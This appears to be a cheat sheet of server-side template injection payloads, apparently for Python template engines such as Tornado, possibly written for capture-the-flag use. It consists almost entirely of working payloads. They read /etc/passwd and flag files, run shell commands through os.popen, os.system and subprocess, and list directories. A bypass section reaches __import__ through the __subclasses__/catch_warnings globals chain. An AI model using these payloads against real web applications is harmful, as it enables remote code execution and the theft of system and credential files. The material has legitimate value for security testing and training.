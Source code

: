 ### Accessing Python Builtins

```
{{ __builtins__ }}
{{ __builtins__.__dict__ }}
```

### File Reading

```
{{ open('/etc/passwd').read() }}
{{ open('/flag.txt').read() }}
{{ __import__('os').popen('cat /flag.txt').read() }}
```

### OS Command Execution

```
{{ __import__('os').popen('ls -la').read() }}
{{ __import__('os').system('id') }}
{{ __import__('subprocess').check_output(['cat', '/flag.txt']) }}
```

### Module Imports

```
{{ __import__('os').listdir('.') }}
{{ __import__('subprocess').check_output(['ls', '-la']) }}
```

## Bypass Techniques

### Using alternative syntax:

```
{% set x = 'os' %}
{% set os = __import__(x) %}
{{ os.popen('cat /flag.txt').read() }}
```

### Using alternative functions:

```
{{ handler.settings.get('compiled_template_cache', {}).items() }}
{{ [x for x in ().__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read() }}
```

### Template engine bypass:

```
{% raw %}
{% include '/etc/passwd' %}
{% end %}
```
